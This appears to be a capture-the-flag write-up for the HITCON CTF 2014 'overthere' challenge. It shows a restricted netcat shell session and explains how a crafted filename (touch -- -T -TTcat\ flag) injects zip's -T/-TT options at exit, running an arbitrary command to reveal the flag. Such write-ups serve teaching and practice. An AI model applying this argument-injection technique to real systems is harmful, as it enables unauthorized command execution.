 # HITCON CTF 2014: overthere

**Category:** Misc.
**Points:** 179
**Description:**

> ```bash
> nc 210.65.11.5 4994
> ```

## Write-up

```bash
root@kali:~# nc 210.65.11.5 4994

 **      ** ** **********   ******    *******   ****     **   **     **
/**     /**/**/////**///   **////**  **/////** /**/**   /**  //**   **
/**     /**/**    /**     **    //  **     //**/**//**  /**   //** **
/**********/**    /**    /**       /**      /**/** //** /**    //***
/**//////**/**    /**    /**       /**      /**/**  //**/**     **/**
/**     /**/**    /**    //**    **//**     ** /**   //****    ** //**
/**     /**/**    /**     //******  //*******  /**    //***   **   //**
//      // //     //       //////    ///////   //      ///   //     //
                                                            by oldtrick

Welcome to my shell. Just pwn to own.

$
```

Cool, a shell!

```
$ ls -lha
total 120K
drwxrwxrwx    2 2137755712 overthere 4.0K Aug 18 01:01 .
drwx-wx-wx 1270 root       root      108K Aug 18 01:01 ..
-rw-r--r--    1 2137755712 overthere    0 Aug 18 01:01 atdog_said_it's_easy
-rw-r--r--    1 2137755712 overthere   34 Aug 18 01:01 flag

$ help
Command:
	echo, exit, touch, cat, ls
id - return user identity
uname - display information about the system
echo - write arguments to the standard output
touch - change file access and modification times
ls - list directory contents
cat - concatenate and print files
exit - backup your files and exit

$ id
uid=2137755712 gid=1001(overthere)

$ uname
Linux

$ uname -a
Linux ctf 3.13.0-30-generic #54-Ubuntu SMP Mon Jun 9 22:45:01 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```

Okay, so a lot of things work. However, there are some problems. For example, you can’t directly `cat` a file:

```bash
$ cat flag
Serious? Are you kidding me?!
$ touch test
$ cat test
Serious? Are you kidding me?!
```

Output redirection doesn’t work the way you’d expect it to:

```bash
$ echo test > test
Invalid character.
```

When we type exit we see the following:

```bash
$ exit

Start zipping file...
  adding: atdog_said_it's_easy (stored 0%)
Done.

Did you forget to catch the flag?

Bye!
```

We can see that at exit the current working directory is passed as arguments to the `zip` command. Using `touch` to create a new file that will be used as commandline arguments to `exit` seems like a viable option. A good thing to do is to leverage the `-T`/`--test` and `-TT` options of the `zip` command which do the following:

```
-T
--test
    Test the integrity of the new zip file. If the check fails, the old zip file is unchanged and (with the -m option) no input files are removed.

-TT cmd
--unzip-command cmd
    Use command cmd instead of 'unzip -tqq' to test an archive when the -T option is used. On Unix, to use a copy of unzip in the current directory instead of the standard system unzip, could use:
    zip archive file1 file2 -T -TT "./unzip -tqq"

    In cmd, {} is replaced by the name of the temporary archive, otherwise the name of the archive is appended to the end of the command. The return code is checked for success (0 on Unix).
```

With this we see that we can force the zip archive to be tested and even provide the command to test with. The hard part about this attack is that we need to be able to create a file with the filname of commandline arguments which would normally be processed by `touch` and cause an error as they are not legitimate arguments to the `touch` command. We can remedy this by using the `--` argument which reads in our filename from STDIN instead of literally from the commandline.

Leveraging this information we come up with the following command which allows us to bypass the restriction of running cat directly as well as all other restrictions.

```bash
touch -- -T -TTcat\ flag
```

We run that command and then run `exit` and get the following

```bash
root@kali:~# nc 210.65.11.5 4994

 **      ** ** **********   ******    *******   ****     **   **     **
/**     /**/**/////**///   **////**  **/////** /**/**   /**  //**   **
/**     /**/**    /**     **    //  **     //**/**//**  /**   //** **
/**********/**    /**    /**       /**      /**/** //** /**    //***
/**//////**/**    /**    /**       /**      /**/**  //**/**     **/**
/**     /**/**    /**    //**    **//**     ** /**   //****    ** //**
/**     /**/**    /**     //******  //*******  /**    //***   **   //**
//      // //     //       //////    ///////   //      ///   //     //
                                                            by oldtrick

Welcome to my shell. Just pwn to own.
$ touch -- -T -TTcat\ flag
$ exit

Start zipping file...
  adding: atdog_said_it's_easy (stored 0%)
HITCON{0ld_7rick5_alw4y5_workS!!}
PK
ocEatdog_said_it's_easyUT	���S���Sux
                                          �Z��PK
ocE��atdog_said_it's_easyUT���Sux
                                 �Z��PKZNtest of takeaway.zip OK
Done.

Did you forget to catch the flag?

Bye!
```

The flag is `HITCON{0ld_7rick5_alw4y5_workS!!}`.

## Other write-ups and resources

* [Unix Wildcards Gone Wild](http://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt)
